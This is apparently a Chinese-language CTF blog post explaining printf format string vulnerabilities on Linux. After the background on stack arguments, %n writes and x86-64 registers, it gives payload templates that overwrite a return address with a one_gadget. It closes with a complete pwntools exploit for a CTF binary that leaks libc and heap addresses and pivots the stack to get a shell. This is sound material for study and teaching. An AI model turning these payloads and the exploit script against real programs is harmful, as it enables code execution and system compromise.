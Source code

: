 ```yaml
---
title: linux格式化字符串漏洞
tags: ctf
abbrlink: 54897
date: 2018-06-08 17:55:43
---
```


# 格式化漏洞

参考链接：http://roo0.me/2017/11/05/%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E/#x86-64-%E4%B8%AD%E7%9A%84%E6%A0%BC%E5%BC%8F%E5%8C%96%E5%AD%97%E7%AC%A6%E4%B8%B2%E6%BC%8F%E6%B4%9E

## 前置知识

### 原理

在 x86 结构下，格式字符串的参数是通过栈传递的，根据 cdecl 的调用约定，在进入 `printf()` 函数之前，将参数从右到左依次压栈。进入 `printf()` 之后，函数首先获取第一个参数，一次读取一个字符：如果字符不是 `%`，字符直接复制到输出中；否则，读取下一个非空字符，获取相应的参数并解析输出。

但在`printf()`函数对第一个参数进行解析的时候，它不会检查所传进来的参数个数，每当解析到`%...`的时候，它就会直接按照顺序在栈中向后取参数。所以如果第一个参数中的占位符`%...`数量多于后面所传进来的参数的话，就可以非法地访问到栈中其他地址的内容。

### 格式化字符串

- %d 用于读取10进制数值
- %x 用于读取16进制数值
- %s 用于读取字符串值
- %c 用于读取字符
- %p 用于读取指针地址
- %n 用于讲当前字符串的长度打印到var中，例 printf（"test %hn",&var[其中var为两个字节]） printf（"test %n",&var[其中var为一个字节]）%n 写4个字节，%hn写2个字节，%hhn写1个字节

### 案例

```
printf("Hello %%");           // "Hello %"
printf("Hello World!");       // "Hello World!"
printf("Number: %d", 123);    // "Number: 123"
printf("%s %s", "Format", "Strings");   // "Format Strings"
printf("%12c", 'A');          // "           A"
printf("%16s", "Hello");      // "          Hello!"
int n;
printf("%12c%n", 'A', &n);    // n = 12
printf("%16s%n", "Hello!", &n); // n = 16
printf("%2$s %1$s", "Format", "Strings"); // "Strings Format"
printf("%42c%1$n", &n);       // 首先输出41个空格，然后输出 n 的低八位地址作为一个字符
```

### X86_64中的格式化字符串漏洞

在 x64 体系中，多数调用惯例都是通过寄存器传递参数。在 Linux 上，前六个参数通过 `RDI`、`RSI`、`RDX`、`RCX`、`R8`和 `R9` 传递；而在 Windows 中，前四个参数通过 `RCX`、`RDX`、`R8`和 `R9` 来传递。

通常情况下，前五个数字却分别来自寄存器 `RSI`、`RDX`、`RCX`、`R8` 和 `R9`，后面的数字取自栈，我们知道共有6个寄存器用于传递参数，但是只输出5个，这是因为，`RDI`被用于传递格式化字符串。

## 漏洞利用方法

1. 大于4的时候:

```
1. 前缀
将返回地址修改为one_gadget
payload = p32(libc_start) + "%" + str(one_gadget & 0xff - 4) + "x%7$hhn"

payload = p32(libc_start + 1) + "%" + str(((one_gadget & 0xff00) >> 8)- 4) + "x    %7$hhn"

payload = p32(libc_start + 2) + "%" + str(((one_gadget & 0xff0000) >> 16)- 4) +     "x%7$hhn"
```

2. 小于4的时候

```
"AA%15$nA"+"\x38\xd5\xff\xff"
```

开头的 `AA` 占两个字节，即将地址`\x38\xd5\xff\xff赋值为 `2，

```
2. 后缀 可以写入
pad = str(one_gadget & 0xff)
if len(pad) == 3:
    payload = "%" + pad + "x%10$hhn" + p32(libc_start)
elif len(pad) == 2:
    payload = "%" + pad + "x%10$hhnA" + p32(libc_start)
else:
    payload = "%" + pad + "x%10$hhnAA" + p32(libc_start)

pad = str((one_gadget & 0xff) >> 8)
if len(pad) == 3:
    payload = "%" + pad + "x%10$hhn" + p32(libc_start + 1)
elif len(pad) == 2:
    payload = "%" + pad + "x%10$hhnA" + p32(libc_start + 1)
else:
    payload = "%" + pad + "x%10$hhnAA" + p32(libc_start + 1)
    
pad = str（(one_gadget & 0xff) >> 16)
if len(pad) == 3:
    payload = "%" + pad + "x%10$hhn" + p32(libc_start + 2)
elif len(pad) == 2:
    payload = "%" + pad + "x%10$hhnA" + p32(libc_start + 2)
else:
    payload = "%" + pad + "x%10$hhnAA" + p32(libc_start + 2)
```

## 无binary

## 格式化字符串不在栈上

CASW2015:

首先通过格式化字符串漏洞leak出libc和heap的地址。

main

​	-> display

​		-> display_1

​		     printf(format)

display_1_ebp --> display_ebp --> main_ebp

在display_1函数中，可以修改main中ebp的值。

display函数返回时，将执行如下语句:

```
pop ebp;
这里的 ebp = main_ebp;
而此时main_ebp是我们伪造的ebp。
```

这样当main函数运行到 leave,ret的时候

```
esp=ebp
pop ebp
pop rip
jump rip
```

这样的话，esp将指向我们伪造的ebp,实现堆栈转换。

rip将指向我们预先放置在堆中的one_gadget地址。

```
from pwn import *

p = process("./contacts")
context.log_level = "debug"

def create_contact(name, phone_number, length, description):
    p.recvuntil(">>>")
    p.sendline("1")
    p.recvuntil("Name: ")
    p.sendline(name)
    p.recvuntil("No: ")
    p.sendline(phone_number)
    p.recvuntil("Length of description: ")
    p.sendline(str(length))
    p.recvuntil("Enter description:")
    p.sendline(description)

def remove_contact(index):
    p.recvuntil(">>>")
    p.sendline("2")

def show_contact():
    p.recvuntil(">>>")
    p.sendline("4")

# leak libc, heap, %6$p => main_ebp
create_contact("c1", "123", "120", "%2$p.%11$p")

show_contact()
p.recvlines(4)
data = p.recvline()

libc = int(data[14:24], 16) - 0x5fcab
print hex(libc)
heap = int(data[25:35], 16) + 0x90 - 4
print heap

one_gadget = libc + 0x5fbc5

attach(p, "b *0x8048c27")
create_contact("c2", "123", "120", p32(one_gadget))

# 伪造main_ebp
create_contact("c3", "123", "120", "%" + str(heap) + "x%6$n")
show_contact()
p.recvuntil(">>>")
p.sendline("5")
p.interactive()
```





